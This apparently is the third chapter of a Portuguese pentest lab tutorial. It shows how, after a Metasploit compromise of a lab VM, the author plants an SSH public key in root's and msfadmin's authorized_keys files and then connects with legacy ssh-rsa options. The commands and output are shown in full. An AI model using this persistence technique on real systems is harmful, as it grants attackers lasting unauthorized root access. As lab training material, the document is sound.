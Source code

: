 # 03. Ganhando acesso direto ao SSH

Após realizar a etapa de exploração de vulnerabilidade de um dos serviços presentes na nossa máquina alvo (leia <a href="02_pos_exploracao_com_metasploit.md">02. Pós-exploração com <b>METASPLOIT</b></a> para entender o fluxo de pensamento até aqui), vamos procurar uma conexão ao <i><b>console/terminal</b></i> da máquina mais estável, nos conectando diretamente ao <i><b>SSH da mesma.</b></i>

Após a gente conseguir acesso ao <i><b>console</b></i> da máquina, vamos procurar por mais usuários nos quais podemos realizar o acesso via <i><b>SSH</b></i>:

```
ls /home
ftp
msfadmin
service
user
```

<b>Aparentemente</b>, além do usuário `root`, temos os usuários `ftp`, `msfadmin`, `service` e `user`.

Antes de qualquer coisa, vamos criar uma chave ssh para usarmos somente nesse cenário (<i>por segurança, alguns dados foram editados</i>):

```
$ ssh-keygen -t rsa -b 4096 -C "local@pentest"
Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): local_pentest
Enter passphrase for "local_pentest" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in local_pentest
Your public key has been saved in local_pentest.pub
The key fingerprint is:
SHA256:97DsZKl2Q39fDWb1Fucxo3t9/q9c5epgRIG2zO7Sdyo local@pentest
The key's randomart image is:
+---[RSA 4096]----+
|           ..    |
|          o  .   |
|         + ..  =o|
|          +.  .oB|
|        S.o ..+ =|
|         oo* o.++|
|         +*.+. .B|
|        o=E.oo++o|
|       ..o.+.==oB|
+----[SHA256]-----+
```

Chave ssh criada com sucesso. Vamos voltar a sessão que a gente fez no <i><b>Metasploit</b></i> e vamos importar essa chave (a parte pública) para dentro da nossa máquina alvo:

```
upload .ssh/local_pentest.pub /tmp/local_pentest.pub
[*] Max line length is 65537
[*] Writing 750 bytes in 1 chunks of 2853 bytes (octal-encoded), using printf
[+] File </tmp/local_pentest.pub> upload finished
chmod 600 /tmp/local_pentest.pub
```

Vamos averiguar quais desses usuários a gente pode realmente habilitar o acesso ssh com a nossa chave:

```
ls -a /root
.
..
.Xauthority
.bash_history
.bashrc
.config
.filezilla
.fluxbox
.gconf
.gconfd
.gstreamer-0.10
.mozilla
.profile
.purple
.rhosts
.ssh
.vnc
Desktop
reset_logs.sh
vnc.log
ls /home
ftp
msfadmin
service
user
ls -a /home/ftp
.
..
ls -a /home/msfadmin
.
..
.bash_history
.distcc
.gconf
.gconfd
.mysql_history
.profile
.rhosts
.ssh
.sudo_as_admin_successful
server_dump_mysql.sql
server_dump_postgres.sql
vulnerable
ls -a /home/service
.
..
.bash_logout
.bashrc
.profile
ls -a /home/user
.
..
.bash_history
.bash_logout
.bashrc
.profile
.ssh
```

Somente os usuários `root`, `msfadmin` e `user` possuem diretórios `.ssh`, então vamos copiar nossa chave para esses usuários:

```
cp /tmp/local_pentest.pub /root/.ssh/local_pentest.pub
cp /tmp/local_pentest.pub /home/msfadmin/.ssh/local_pentest.pub
cp /tmp/local_pentest.pub /home/user/.ssh/local_pentest.pub
```

Tentamos acessar agora o SSH com algum dos usuários com o comando:

`$ ssh msfadmin@192.168.56.102`

Sem sucesso, o SSH não chega nem a retornar nada. Vamos ativar a verbosidade do SSH do cliente para tentar ver o que está acontecendo:

```
$ ssh msfadmin@192.168.56.105 -v
debug1: OpenSSH_10.0p2 Debian-8, OpenSSL 3.5.3 16 Sep 2025
debug1: Reading configuration data /home/pqpmath3ws/.ssh/config
debug1: /home/pqpmath3ws/.ssh/config line 1: Applying options for *
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: Reading configuration data /etc/ssh/ssh_config.d/20-systemd-ssh-proxy.conf
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 192.168.56.105 [192.168.56.105] port 22.
debug1: Connection established.
debug1: identity file /home/pqpmath3ws/.ssh/id_rsa type 0
debug1: identity file /home/pqpmath3ws/.ssh/id_rsa-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa_sk type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa_sk-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519 type 3
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519_sk type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519_sk-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_xmss type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_10.0p2 Debian-8
debug1: Remote protocol version 2.0, remote software version OpenSSH_4.7p1 Debian-8ubuntu1
debug1: compat_banner: match: OpenSSH_4.7p1 Debian-8ubuntu1 pat OpenSSH_2*,OpenSSH_3*,OpenSSH_4* compat 0x00000002
debug1: Authenticating to 192.168.56.105:22 as 'msfadmin'
debug1: load_hostkeys: fopen /etc/ssh/ssh_known_hosts: No such file or directory
debug1: load_hostkeys: fopen /etc/ssh/ssh_known_hosts2: No such file or directory
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: diffie-hellman-group-exchange-sha256
debug1: kex: host key algorithm: (no match)
Unable to negotiate with 192.168.56.105 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```

Ah, agora conseguimos entender o problema que estamos tendo aqui: O servidor roda uma versão muito antiga do OpenSSH <i>(4.7.1p)</i> e usa dois formatos que já foram desabilitados por padrão no OpenSSH mais atual (<i><b>ssh-rsa</b></i> e <i><b>ssh-dss</b></i>). Como conseguir o acesso agora, sem mexer na máquina alvo? Simples - passemos uma configuração extra na linha de comando para permitir a conexão a esses modos mais antigos e descontinuados. Para nos conectarmos, precisaremos passar mais alguns argumentos, ficando assim o comando:

`ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.56.105`

onde,

- `-o HostKeyAlgorithms=+ssh-rsa` adiciona a opção `HostKeyAlgorithms` com o valor do padrão do ssh do server - `ssh-rsa`
- `-o PubkeyAcceptedKeyTypes=+ssh-rsa` adiciona a opção  `PubkeyAcceptedKeyTypes` com o valor do padrão ssh do server `ssh-rsa`.

Tentamos nos conectar, e mais uma vez, falhamos, só que agora o servidor pede uma senha (que a gente ainda não tem). O que vamos fazer?

Vamos procurar pela existência de um arquivo chamado <i><b>authorized_keys</b></i> nos usuários da nossa máquina alvo, pelo <i><b>Metasploit</b></i>:

```
ls -a /root/.ssh/
.
..
authorized_keys
known_hosts
local_pentest.pub
ls -a /home/msfadmin/.ssh/
.
..
authorized_keys
id_rsa
id_rsa.pub
local_pentest.pub
ls /home/user/.ssh/
id_dsa
id_dsa.pub
local_pentest.pub
```

Somente os usuários `root` e `msfadmin` possuem tal arquivo. Vamos copiar o valor da chave pública pra dentro desses arquivos agora:

```
cat /tmp/local_pentest.pub >> /root/.ssh/authorized_keys
cat /tmp/local_pentest.pub >> /home/msfadmin/.ssh/authorized_keys
```

Executamos o mesmo comando novamente:

`ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.56.105`

E <b>VOALÀ!</b> - Acesso SSH garantido ao nosso servidor alvo. Agora o céu é o limite. E vamos com tudo para nossa próxima etapa!